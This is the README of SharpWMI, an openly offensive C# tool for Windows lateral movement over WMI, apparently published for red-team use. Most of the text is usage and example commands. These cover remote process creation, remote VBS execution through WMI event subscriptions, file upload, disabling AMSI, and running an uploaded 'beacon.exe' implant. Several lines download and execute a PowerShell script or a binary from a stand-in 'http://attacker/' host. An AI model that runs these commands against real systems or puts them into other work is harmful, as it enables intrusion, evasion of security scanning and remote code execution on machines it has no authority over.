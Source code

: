
# SharpWMI

----

SharpWMI is a C# implementation of various WMI functionality. This includes local/remote WMI queries, remote WMI process creation through win32_process, and remote execution of arbitrary VBS through WMI event subscriptions. Alternate credentials are also supported for remote methods. 

[@harmj0y](https://twitter.com/harmj0y) is the primary author.

SharpWMI is licensed under the BSD 3-Clause license.

## Usage

```
  Local system enumeration:
    SharpWMI.exe action=query query="select * from win32_service" [namespace=BLAH]

  Remote system enumeration:
    SharpWMI.exe action=query computername=HOST1[,HOST2,...] query="select * from win32_service" [namespace=BLAH]

  Remote process creation:
    SharpWMI.exe action=exec computername=HOST[,HOST2,...] command="C:\\temp\\process.exe [args]" [amsi=disable] [result=true]

  Remote VBS execution:
    SharpWMI.exe action=executevbs computername=HOST[,HOST2,...] [script-specification] [eventname=blah] [amsi=disable] [time-specs]

  File upload via WMI:
    SharpWMI.exe action=upload computername=HOST[,HOST2,...] source="C:\\source\\file.exe" dest="C:\\temp\\dest-file.exe" [amsi=disable]

NOTE:
  Any remote function also takes an optional "username=DOMAIN\\user" "password=Password123!"
```

The `result=true` option on `action=exec` (alternatively `action=create`) makes SharpWMI to return command's output after remote WMI process creation. It works by storing command's output in an instance of arbitrary WMI object. That object would  then be fetched by callee and restored to it's original value.


### VBS Script execution:

The `executevbs` action was reworked as compared to the original version of SharpWMI.
Script specification defined in `[script-specification]` offers following methods to point this tool at target VBS code:

```
  A) Executes OS command via preset VBS code:
    SharpWMI.exe action=executevbs [...] command="notepad.exe"

  B) Downloads Powershell commands from URL and execute them from within VBS via Powershell's StdIn:
    SharpWMI.exe action=executevbs [...] url="http://attacker/myscript.ps1"

  C) Download a binary file from given URL, store it in specified path and then execute it:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe"

  D) Download a binary file from given URL, store it in specified path and then execute arbitrary command:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe" command="%TEMP%\bar.exe -some -parameters"

  E) Read VBS script from file and execute it:
    SharpWMI.exe action=executevbs [...] script="myscript.vbs"

  F) Execute given VBS script given literally:
    SharpWMI.exe action=executevbs [...] script="CreateObject(\\"WScript.Shell\\").Run(\\"notepad.exe\\")"

  G) Base64 decode input string being encoded VBS script and execute it on remote machine:
    SharpWMI.exe action=executevbs [...] scriptb64="Q3JlYXRlT2JqZWN0KCJXU2NyaXB0LlNoZWxsIi[...]"

  H) Read contents of given file, base64 decode them and then execute on target machine:
    SharpWMI.exe action=executevbs [...] scriptb64="myscript.vbs.b64"

  Finally, 'executevbs' action may have additional [time-specs] defined in seconds - they specify script trigger and wait timeouts:
    SharpWMI.exe action=executevbs [...] trigger=5 timeout=10
```


### Examples:

```
  SharpWMI.exe action=query query ="select * from win32_process"

  SharpWMI.exe action=query query="SELECT * FROM AntiVirusProduct" namespace="root\\SecurityCenter2"

  SharpWMI.exe action=query computername=primary.testlab.local query="select * from win32_service"

  SharpWMI.exe action=query computername=primary,secondary query="select * from win32_process"

  SharpWMI.exe action=exec computername=primary.testlab.local command="powershell.exe -enc ZQBj..."

  SharpWMI.exe action=exec computername=primary.testlab.local command="whoami" result=true amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local command="notepad.exe" eventname="MyLittleEvent" amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local username="TESTLAB\\harmj0y" password="Password123!" script="myscript.vbs"

  SharpWMI.exe action=upload computername=primary.testlab.local source="beacon.exe" dest="C:\\Windows\\temp\\foo.exe" amsi=disable
```


## Compile Instructions

We are not planning on releasing binaries for SharpWMI, so you will have to compile yourself :)

SharpWMI has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.


## Authors

|Contribution  |Author  |
|--|--|
|Original SharpWMI implementation|[Will Schroeder @harmj0y](https://github.com/harmj0y)  |
|WMI code-exec output idea |[Evi1cg @Ridter](https://github.com/Ridter)  |
|AMSI evasion code taken from SharpMove |[Steven Flores 0xthirteen](https://github.com/0xthirteen)  |
|Enhancements, VBS flexibility, file upload |[Mariusz B. / mgeeky @mariuszbit](https://github.com/mgeeky)  |